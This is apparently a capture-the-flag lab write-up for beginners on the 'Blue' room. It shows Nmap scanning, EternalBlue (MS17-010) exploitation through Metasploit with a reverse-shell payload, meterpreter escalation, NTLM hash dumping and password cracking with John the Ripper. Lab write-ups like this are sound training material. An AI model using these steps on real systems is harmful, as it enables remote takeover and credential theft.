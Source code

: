 # CTF

**This room is not meant to be a boot2root CTF; rather, it's an educational series for complete beginners. Professionals will likely gain very little from this room beyond basic practice, as the focus here is on beginners.**

## Recon - Nmap

We start with reconnaissance. The industry standard is Nmap, and that's what I am using. `nmap [ip]` is enough for now, and the results are:

```
Not shown: 991 closed ports
PORT      STATE SERVICE
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49158/tcp open  unknown
49159/tcp open  unknown
MAC Address: 02:89:D8:BF:23:C3 (Unknown)
```

There are many new ports that I haven't seen before. After some searching on Google, I noticed that many of these ports are Microsoft-related. This suggests that the machine is likely running Windows.

So, I need to find vulnerabilities on the machine. Nmap has the **N**map **S**cripting **E**ngine (NSE), which includes a variety of scripts. I'm particularly interested in the vulnerabilities section. After running `nmap --script=vuln [ip]`, I'm presented with numerous options. Some of them are:

```
| rdp-vuln-ms12-020:
|   VULNERABLE:
|   MS12-020 Remote Desktop Protocol Denial Of Service Vulnerability
|     State: VULNERABLE
|     IDs:  CVE:CVE-2012-0152
|     Risk factor: Medium  CVSSv2: 4.3 (MEDIUM) (AV:N/AC:M/Au:N/C:N/I:N/A:P)
|           Remote Desktop Protocol vulnerability that could allow remote attackers to cause a denial of service.

| smb-vuln-ms17-010:
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1 servers (ms17-010).
```

Here, I'm going to exploit the second one. That's why the room is called Blue, after the name of that vulnerability called <font color=blue> Eternal Blue </font>.

## Gain Access - Metasploit

We will use Metasploit for this room to become familiar with it. First, I need to update it with `msfupdate`. Then, I can start it with `msfconsole`.

I need to `search` for something related to this vulnerability, which I do with `search ms17-010`, a term I learned during the Recon phase. I'm presented with five choices, and I'm going to use the first one, called:

`0    exploit/windows/smb/ms17_010_eternalblue  2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption`

So I type `use 0`, and now I need to see some options, so I type `show options`.

```
   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), see https://d
                                             ocs.metasploit.com/docs/using-met
                                             asploit/basics/using-metasploit.h
                                             tml
   RPORT          445              yes       The target port (TCP)
   SMBDomain                       no        (Optional) The Windows domain to
                                             use for authentication. Only affe
                                             cts Windows Server 2008 R2, Windo
                                             ws 7, Windows Embedded Standard 7
                                              target machines.
   SMBPass                         no        (Optional) The password for the s
                                             pecified username
   SMBUser                         no        (Optional) The username to authen
                                             ticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matc
                                             hes exploit Target. Only affects
                                             Windows Server 2008 R2, Windows 7
                                             , Windows Embedded Standard 7 tar
                                             get machines.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploi
                                             t Target. Only affects Windows Se
                                             rver 2008 R2, Windows 7, Windows
                                             Embedded Standard 7 target machin
                                             es.

Payload options (windows/x64/meterpreter/reverse_tcp):

   Name

      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thr
                                        ead, process, none)
   LHOST     10.10.123.130    yes       The listen address (an interface may b
                                        e specified)
   LPORT     4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Automatic Target
```

I definitely need to set RHOSTS and the payload settings. So I type:
`set RHOSTS [enemy ip]` and also
`set payload windows/x64/shell/reverse_tcp`.

I am ready, so I `exploit` it and wait for it to do its magic!

## Escalate

I background this session with CTRL+Z and I make sure it's there with `sessions -l`. Next, I need to search for how to convert a shell to a meterpreter shell in Metasploit. I find the module for this job called `post/multi/manage/shell_to_meterpreter`. I exit from my previous session with `back` and use the above module. I `show options`, and for this one, I need to `set SESSION [number of session with Windows shell]` and I exploit! Now I have a third session with meterpreter! I get into the meterpreter session and I run `shell`, and I am in the Windows machine! With `whoami`, I get `nt authority\system`, which is good news. I exit and go back to meterpreter. I need to migrate our process to this machine because we need to match the architecture of that machine. So I `ps` and search for one stable process. A good bet is:

```
 1280  692   spoolsv.exe  x64   0        NT AUTHORITY\SYSTEM  C:\Windows\System32\spoolsv.exe
```

So I `migrate 1280`, and we are good to go!

## Cracking

Now I need to find the passwords of the users, and I can do that with the command `hashdump`, which gives me:

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
```

I see that we have a non-default account named Jon, and that's what I am interested in. I take the hashed password and save it to a `.hash` file on my local machine. First, I need to find the type of hash. Going back to "John The Ripper-Identifying Hashes," I download the `hash-id.py` module and run it. I paste the hash, and I get:

```
Possible Hashs:
[+] md5($pass.$salt) - Joomla
```

So I run John The Ripper with:
`john Jon.hash --format=NT --wordlist=/opt/rockyou.txt`

And we have a result! I run:
`john --format=NT Desktop/Jon.hash --show` to see my results, and I have the password <font color=red > alqfna22 </font>

## Find Flags!

*Find the three flags planted on this machine. These are not traditional flags; rather, they represent key locations within the Windows system. Use the hints provided below to complete this room!*

The hint for the first flag says _This flag can be found at the system root._ So I go back to my meterpreter console and `cd ..` a couple of times. I `dir` and find my first flag.

For the second, we have _This flag can be found at the location where passwords are stored within Windows._ After some searching online, I find that the location for this one is `C:\Windows\System32\config`, and I find the second flag.

And for the third, we have _This flag can be found in an excellent location to loot. After all, Administrators usually have pretty interesting things saved._ I go back a few folders, `cd` into Users, find Jon, and dig around. I find my third flag in the Documents folder.

## Conclusion

Very interesting stuff! I got to know more about Nmap, John The Ripper, privilege escalation, and Windows in general. The flags required some patience to find, but all in all, it's a very good machine.
